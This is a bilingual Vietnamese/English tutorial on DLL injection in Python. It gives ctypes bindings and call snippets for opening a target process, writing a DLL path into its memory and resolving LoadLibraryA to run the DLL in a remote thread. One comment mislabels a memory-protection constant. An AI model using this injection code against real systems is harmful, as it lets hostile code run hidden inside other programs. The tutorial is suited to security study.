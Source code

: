 # DLL INJECTION
### Các bước tiến hành DLL Injection - Steps to perform DLL Injection
   - Tấn công tiến trình - Attach to the process 
   - Phân bổ bộ nhớ chứa tiến trình - Allocate memory within the process
   - Chép đường dẫn DLL vào bộ nhớ tiến trình - Copy the DLL path into process memory    
   - Tạo luồng với tiến trình để thực thi DLL - Create a thread within the process to execute your DLL
### Danh sách API sử dụng - List APIs
- OpenProcess()
- VirtualAllocEx()
- WriteProcessMemory()
- LoadLibraryA()
- CreateRemoteThread(), NtCreateThreadEx, etc.
### Win32 API
- Tạo cách định nghĩa cho hàm muốn gọi 
We’ll create definitions for the functions we want to call.

```
kernel32 = ctypes.windll.kernel32

LPCTSTR = ctypes.c_char_p 
SIZE_T = ctypes.c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (ctypes.wintypes.DWORD, ctypes.wintypes.BOOL, ctypes.wintypes.DWORD)
OpenProcess.restype = ctypes.wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, SIZE_T, ctypes.wintypes.DWORD, ctypes.wintypes.DWORD)
VirtualAllocEx.restype = ctypes.wintypes.LPVOID

WriteProcessMemory = kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.wintypes.LPCVOID, SIZE_T, ctypes.POINTER(SIZE_T))
WriteProcessMemory.restype = ctypes.wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = ctypes.wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (ctypes.wintypes.HANDLE, LPCTSTR)
GetProcAddress.restype = ctypes.wintypes.LPVOID

class _SECURITY_ATTRIBUTES(ctypes.Structure):
    _fields_ = [('nLength', ctypes.wintypes.DWORD),
                ('lpSecurityDescriptor', ctypes.wintypes.LPVOID),
                ('bInheritHandle', ctypes.wintypes.BOOL)]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = ctypes.POINTER(_SECURITY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = ctypes.wintypes.LPVOID


CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (ctypes.wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, ctypes.wintypes.LPVOID, ctypes.wintypes.DWORD, ctypes.wintypes.LPDWORD)
CreateRemoteThread.restype = ctypes.wintypes.HANDLE

MEM_COMMIT = 0x0001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0x0
PROCESS_ALL_ACCESS = (0x000F0000 | 0x00100000 | 0x00000FFF)
```
### OpenProcess()
- Sử dụng OpenProcess để trả về 1 handle để xử lí tiến trình chúng ta cần tương tác
We will use OpenProcess() to return a handle to the process so we can interact with it
```
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
```
- OpenProcess() có 3 tham số - OpenProcess() takes three arguments.
    - dwDesiredAccess - Đây là quyền truy cập vào tiến trình. Để sử dụng WriteProcessMemory, handle phải có quyền PROCESS_VM_WRITE và PROCESS_VM_OPERATION vào tiến trình.
 (This is the access rights to the process. In order to use WriteProcessMemory, the handle must have PROCESS_VM_WRITE and PROCESS_VM_OPERATION access to the process.)
    - bInheritHandle -Nếu giá trị này là TRUE, thì tiến trình được tạo bởi quá trình này cũng sẽ kế thừa handle. Chúng ta không cần điều này vì vậy chúng ta đặt nó thành FALSE. 
    (If this value is TRUE, then the process created by this process will also inherit the handle. We don’t need this so we set it to false.)
   - dwProcessID - Đây là id của tiến trình 
   This is the process id of the process to be opened.
### VirtualAllocEx()
- VirtualAllocEx() lấy một lượng bộ nhớ để phân bổ các tham số của nó.
VirtualAllocEx() takes amount of memory to allocate as one of its parameters.
```
memory = VirtualAllocEx(handle, False, len(dllname) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRIT
E)
```

- VirtualAllocEx() có 5  tham số - VirtualAllocEx()takes five arguments.
     - hProcess - Đây là handle tiến trình. Hàm này sẽ phân bổ bộ nhớ trong không gian địa chỉ ảo của tiến trình.
     This is the handle to the process. The function will allocate memory within the virtual address space of this process.
    - lpAddress - Đây là một con trỏ tới địa chỉ bắt đầu của vùng trang bạn muốn phân bổ. Nếu là NULL, hàm sẽ xác định vị trí cấp phát vùng.
    This is a pointer to the starting address of the region of pages you want to allocate. If this is NULL, the function will determine where to allocate the region.
    - dwSize - Đây là kích thước của vùng bộ nhớ để phân bổ, tính bằng byte. Chúng ta sẽ phân bổ không gian cho đường dẫn đầy đủ của DLL.
    This is the size of the region of memory to allocate, in bytes. We will allocate space for the full path of the DLL.
    - flAllocationType and flProtect - cho biết loại phân bổ và bảo vệ bộ nhớ, chúng ta dùng 0x3000 cho loại phân bổ sẽ gọi VirtualAllocEx với MEM_RESERVE và MEM_COMMIT. 0x40 chỉ ra rằng bộ nhớ có thể đọc và ghi được.
    This indicates the allocation type and memory protection. We will use 0x3000 for the allocation type which will call VirtualAllocEx with MEM_RESERVE and MEM_COMMIT. 0x40 indicates that the memory is readable and writable.
### WriteProcessMemory()
Chép đường dẫn DLL vào tiến trình.  
Now we will copy the DLL path into the process. We can use WriteProcessMemory to do so.
```
write = WriteProcessMemory(handle, memory, dllname, len(dllname) + 1, None)
```
### LoadLibraryA() và CreateRemoteThread() 
- Tới đây chúng ta có DLL đã viết vào tiến trình đích, chúng ta bắt đầu một luồng mới để thực thi file DLL
Now that we have our DLL written to the remote process, we can start a new thread to load our DLL. 
- Đầu tiên cần xác định vị trí của LoadLibrary(). Để làm được chúng ta cần GetProcAddress và GetModuleHandle.
First,we need to find the location of LoadLibrary(). To do so, we’ll use GetProcAddress and GetModuleHandle.
- GetProcAddress sẽ truy xuất địa chỉ của hàm hoặc biến đã xuất từ tệp DLL.
GetProcAddress will retrieve the address of an exported function or variable from a DLL. 
- GetModuleHandle sẽ truy xuất handle module tới module đã chỉ định 
GetModuleHandle to retrieve a module handle to a specified module.
```
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
```
- Chúng ta đã có địa chỉ load library. Việc cần làm tiếp theo là tạo một luồng tới DLL đã tải lên. 
We have the load library address now, all we need to do is to create a thread to execute the loaded DLL.

./dll_injec.py -p <PID> -f <PATH_TO_DLL> 
